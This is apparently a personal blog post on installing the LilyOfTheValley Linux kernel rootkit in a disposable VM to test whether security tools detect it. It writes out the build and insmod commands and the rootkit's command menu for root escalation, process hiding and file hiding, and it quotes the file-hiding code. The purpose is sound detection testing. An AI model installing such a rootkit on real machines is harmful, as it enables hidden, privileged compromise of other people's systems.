 ```yaml
---
layout: post
title: Install a Rootkit to Test Security Systems With
categories:

---
```


# {{ page.title }}

Let's say you wnat to install a rootkit to test with. There could be various reasons, maybe you are testing some kind of specialized security system. Regardless of the reason, you need a rootkit to test out. 

The first place I ended up at is [Awesome Rootkits](https://github.com/milabs/awesome-linux-rootkits), a big list of rootkits.

The one that I picked from that list, somewhat randomly, was [LilyOfTheValley](https://github.com/En14c/LilyOfTheValley). I have no good reason as to why I picked this particular one, other than it seemed to suggest it would work on several kernel versions, and was a small amount of code.

## WARNING

Obviously this is a rootkit. Don't install it on your local machine. Get a temporary, disposable virtual machine. 

## Install

The kernel version in this example is 4.4.0-22 on Ubuntu 16.04.

```
# uname -a
Linux old-kernely 4.4.0-22-generic #40-Ubuntu SMP Thu May 12 22:03:46 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

Clone the repo.

```
# git clone https://github.com/En14c/LilyOfTheValley
# cd LilyOfTheValley
```

Install build-essential.

```
# apt install build-essential -y
```

Get headers too.

```
# apt install linux-headers-4.4.0-22-generic
```

Make.

```
# make
make -C /lib/modules/4.4.0-22-generic/build M=/root/LilyOfTheValley modules
make[1]: Entering directory '/usr/src/linux-headers-4.4.0-22-generic'
  CC [M]  /root/LilyOfTheValley/lilyofthevalley.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /root/LilyOfTheValley/lilyofthevalley.mod.o
  LD [M]  /root/LilyOfTheValley/lilyofthevalley.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.4.0-22-generic'
```

Now there is a kernel module, lilyofthevalley.ko.

```
# ls -1
client.c
lilyofthevalley.c
lilyofthevalley.ko
lilyofthevalley.mod.c
lilyofthevalley.mod.o
lilyofthevalley.o
Makefile
modules.order
Module.symvers
README.md
```

Install that module.

```
# insmod lilyofthevalley.ko 
```

Once it's loaded /proc can be used to find commands that can be sent to the module.

```
# cat /proc/lilyofthevalleyr00tkit 
###########################
LilyOfTheValley Commands
###########################

	* [givemerootprivileges] -->> to gain root access
	* [hidepidPID] -->> to hide a given pid. replace (PID) with target pid
	* [unhidepidPID] -->> to unhide a given pid. replace (PID) with target pid
	* [hidingfiles] -->> just prepend lilyofthevalley to the file or dir name that u want to hide
```

Also, note how any files in the directory that started with the string "lilyofthevalley" now no longer appear in ls.

```
# ls -1
client.c
Makefile
modules.order
Module.symvers
README.md
```

This is because the rootkit removes those files.

See line 409 of lilyofthevalley.c.

```
	/*
	hide any file in  the root filesystem, 
	if first chars of it's name == r00tkit_name
	*/
	if (strncmp(name,R00TKIT_NAME,R00TKIT_NAMELEN) == 0)
		return 0;

return org_rootfs_filldir(_buf,name,namelen,offset,ino,d_type);
```

Create a file that starts with that particular string. Note how it's not visible in ls.

```
# touch lilyofthevalley.txt
# ls
client.c  Makefile  modules.order  Module.symvers  README.md
```

After rebooting the node the kernel module is no longer loaded and the missing files are again visible..

```
# ls -1
client.c
lilyofthevalley.c
lilyofthevalley.ko
lilyofthevalley.mod.c
lilyofthevalley.mod.o
lilyofthevalley.o
lilyofthevalley.txt
Makefile
modules.order
Module.symvers
README.md
```

With the module in place secuirty systems can be tested to see if they can find it.


